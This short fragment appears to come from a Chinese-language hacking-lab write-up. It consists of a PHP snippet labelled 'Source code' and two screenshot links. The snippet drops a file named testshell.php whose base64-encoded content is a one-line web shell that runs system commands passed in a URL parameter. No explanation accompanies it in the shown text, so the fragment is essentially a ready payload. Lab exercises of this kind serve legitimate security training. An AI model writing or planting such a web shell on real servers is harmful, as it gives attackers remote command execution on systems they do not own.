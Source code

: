

```
<?php

file_put_contents('testshell.php',base64_decode('PD9waHAgc3lzdGVtKCRfR0VUWzFdKTs/Pg=='));

?>
```

![image-20230627092133057](%E9%9D%B6%E5%9C%BA.assets/image-20230627092133057.png)

![image-20230627092409094](%E9%9D%B6%E5%9C%BA.assets/image-20230627092409094.png)
